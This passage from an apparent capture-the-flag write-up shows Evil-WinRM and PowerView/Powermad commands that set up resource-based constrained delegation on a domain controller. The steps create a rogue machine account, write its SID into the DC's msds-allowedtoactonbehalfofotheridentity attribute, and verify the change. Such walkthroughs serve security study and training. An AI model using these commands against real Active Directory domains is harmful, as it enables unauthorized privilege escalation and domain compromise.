 
3. We also need to check that the `msds-allowedtoactonbehalfofotheridentity` is empty, which it is:

```bash
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer DC | select name,msds-allowedtoactonbehalfofotheridentity | fl

name                                     : DC
msds-allowedtoactonbehalfofotheridentity :
```

### Create New Machine & Attack
We'll use `Powermad` script to create a new machine named `0xW43lPC` and the password `0xW43lPC123!`:

```bash
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount 0xW43lPC -Password $(ConvertTo-SecureString '0xW43lPC123!' -AsPlainText -Force)
```

Also, We need to SID of the computer object:

```bash
*Evil-WinRM* PS C:\Users\support\Documents> $ComputerSid = Get-DomainComputer 0xW43lPC -Properties objectsid | Select -Expand objectsid
*Evil-WinRM* PS C:\Users\support\Documents> $ComputerSid
S-1-5-21-1677581083-3380853377-188903654-5602
```

Now can start the attack by configuring the DC to trust the new machine (`0xW43lPC`) to make authorization decisions on it's behalf:

```bash
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

It's time to verify if its work or not:
```bash
*Evil-WinRM* PS C:\Users\support\Documents> $RawBytes = Get-DomainComputer $TargetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
*Evil-WinRM* PS C:\Users\support\Documents> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
*Evil-WinRM* PS C:\Users\support\Documents> $Descriptor.DiscretionaryAcl


BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-5602
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None
```
